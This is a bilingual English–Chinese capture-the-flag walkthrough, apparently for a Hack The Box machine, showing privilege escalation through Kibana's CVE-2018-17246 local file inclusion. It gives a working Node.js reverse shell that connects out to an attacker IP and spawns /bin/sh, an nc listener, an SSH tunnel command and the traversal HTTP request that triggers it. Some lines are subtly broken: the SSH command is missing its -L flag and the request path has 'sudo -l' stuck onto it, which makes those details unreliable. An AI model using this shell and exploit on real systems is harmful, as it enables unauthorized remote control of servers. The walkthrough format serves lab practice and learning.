 To be honest, I don't like the user of the box. But it does works as the keyword: you have to find a needle in haystack.

说实话，其实我不是很喜欢这台机器的普通用户的部分。不过也正如这台机器关键的一句话：你需要海底捞针。

## 提权

If you look around the box, you will find the box is installed with ELK. You can find kibana and logstash in the box. If you google `kibana exploit`. You will find [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246) in Github. It has detailed illustrates the ways to exploit.

如果你仔细看一下这台机器，你就会发现这台机器就是使用了 ELK。你可以在机器里面找到 kibana 以及 logstash。如果你谷歌 `kibana exploit`，你可以找到 Github 里面的 [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)，里面有详细的利用过程。不过其实通过 kibana 最新的漏洞 [CVE-2019-7609](https://madneal.com/post/kibana%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/) 也是可以的。

However, there is a problem that the kibana service is only running in local. So you cannot access kibana service externally. There is a way to utilize ssh to redirect the network stream.

然而，有个问题是 kibana 的服务只是在本地运行，因为它配置项里面没有配置对外开放。所以你不能直接从外部访问 kibana 服务。可以通过 ssh 重定向网络流量。

```
ssh 5601:localhost:5601 security@10.10.10.115
```

Then, we can access to the kibana service in 10.10.10.115 by access to `localhost:5601`. Place the `server.js` in tmp directory of the target machine.

这样我们就可以通过 `localhost:5601` 访问 10.10.10.115 机器里面的 kibana 服务了。将漏洞利用代码的 `server.js` 文件放在目标机器里面的 tmp 目录。

```
// server.js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "10.10.16.61", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Then we can implement by burp, remember to set up nc listener `nc -lvnp 1234`

我们可以通过 burp 来实现，记得先设置 nc 监听：`nc -lvnp 1234`：

```
GET /api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/server.jssudo -l HTTP/1.1
Host: localhost:5601
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:5601/app/kibana
content-type: application/json
kbn-version: 6.4.2
origin: http://localhost:5601
Connection: close
```
